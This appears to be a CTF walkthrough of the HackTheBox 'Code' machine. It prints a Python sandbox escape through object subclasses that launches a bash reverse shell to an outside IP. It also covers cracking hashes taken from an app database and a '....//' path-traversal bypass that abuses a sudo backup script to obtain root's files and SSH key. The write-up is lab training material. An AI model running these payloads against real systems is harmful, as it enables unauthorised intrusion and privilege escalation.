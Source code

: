 # Code CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Code** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/Code). 
---

we see open ports 22 and 5000 

![scn](imgs/scn.png "scn")

we have some python code editor, running basic reverse shell is of course filtered 

![f](imgs/f.png "f")

so AI suggested to test varius snippets to escape the sandox or use SSTI (Server side template injection)

this command prints a list of all classes that directly inherit from Python's base object class.

```
print((1).__class__.__base__.__subclasses__())
```

![sub](imgs/sub.png "sub")

and this command defines and immediately calls an anonymous function (lambda) that returns 1, so it prints 1.

```
print((lambda: 1)()) 
```

![l](imgs/l.png "l")

This code gets all classes that directly inherit from Python's base object class, then prints each one with its index in the list.

```
subs = (1).__class__.__base__.__subclasses__()
for i, s in enumerate(subs):
    print(i, s)
```

![id](imgs/id.png "id")

we are looking for index of `subprocess.Popen`

![i](imgs/i.png "i")

now we have the correct number we can try to run reverse shell

```
().__class__.__base__.__subclasses__()[317](["/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.7/7777 0>&1"])
```

it worked we got hit and we can grab user flag

![us](imgs/us.png "us")

by lookin at the app.py we see all keywords that being filtered

![fil](imgs/fil.png "fil")

linpeas found some database.db in `/home/app-production/app/instance`

![db](imgs/db.png "db")

after grabbing the file and opening it in sqlitebrowser, we see table user in which we see some hashes

![ta](imgs/ta.png "ta")

![hs](imgs/hs.png "hs")

we can crack them using crackstation

![cr](imgs/cr.png "cr")

now we can try to login as martin

![ss](imgs/ss.png "ss")

we see sudo -l output

![sd](imgs/sd.png "sd")

we cant modify the script itself but we can supply our own file with path to backup

![b](imgs/b.png "b")

we add malicous path to task.json: `/var/....//root/`, we use ....// to bypass the simple filter and we also include /var 

![p](imgs/p.png "p")

then we need to run 

```
sudo /usr/bin/backy.sh baskups/task.json
```

![cm](imgs/cm.png "cm")

then we can unzip the files and we have root flag, in files there is also private ssh key so we also have root access

![rt](imgs/rt.png "rt")

# MACHINE PWNED
